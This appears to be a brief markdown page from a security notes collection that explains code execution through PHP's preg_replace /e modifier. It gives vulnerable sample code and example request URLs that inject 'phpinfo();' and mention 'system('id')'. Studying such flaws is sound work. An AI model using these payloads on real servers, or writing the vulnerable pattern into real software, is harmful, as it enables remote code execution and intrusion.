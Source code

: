 ## Preg_Replace exploit

`preg_replace($pattern, $replacement, $subject)`

Searches subject for matches to pattern and replaces them with replacement.

Preg_replace isn't vulnerable except if the patern end with /e.

Cause /e let replacement execute php function.

If you can control $pattern or if it finish with /e you can execute code like : `system('id')`.

### Exemple

Simple code :

```php
echo "original : ".$subject ."</br>";
    echo "replaced : ".preg_replace($pattern, $replacement, $subject);
```

`index.php?pattern=/as/&replacement=As&subject=as your wish exploit`

> It replace as per As in the string \'as you wish exploit\'.

but what if :

`index.php?pattern=/as/e&replacement=phpinfo();&subject=as your wish exploit`

> It replace as per the output of the fucntion phpinfo() cause we had /e at the end.

#### Doc

- [man preg_replace](https://www.php.net/manual/en/function.preg-replace.php)
- [exploit preg_replace](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4)

[**:arrow_right_hook: Back php**](php.md)